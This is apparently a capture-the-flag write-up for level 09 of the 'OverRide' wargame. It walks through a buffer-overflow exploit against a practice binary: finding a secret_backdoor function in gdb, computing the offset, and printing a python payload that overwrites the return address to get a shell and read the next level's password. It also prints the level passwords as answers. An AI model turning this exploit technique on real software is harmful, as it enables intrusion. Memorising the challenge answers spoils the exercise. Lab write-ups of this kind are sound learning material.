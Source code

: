 # Level 09
*password : fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S*

## Analyze

```
scp -P 4242 level09@192.168.56.109:level09 binary/
```

## Buffer overflow

- exploit strncpy : n = buffer[180]
    - buffer[180] filled by username

```
(gdb) info funct secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
`secret_backdoor()` address : 0x000055555555488c\
- find offset : 200 
- compute buffer[180] : 200 + 8 = 208 (= d0 in hexadecimal)

```
$ python -c 'print "\x41" * 40 + "\xd0" + "\n" + "\x41" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"' > /tmp/level09 ; cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
```
$ su end
Password: 
end@OverRide:~$ cat end
GG !
```

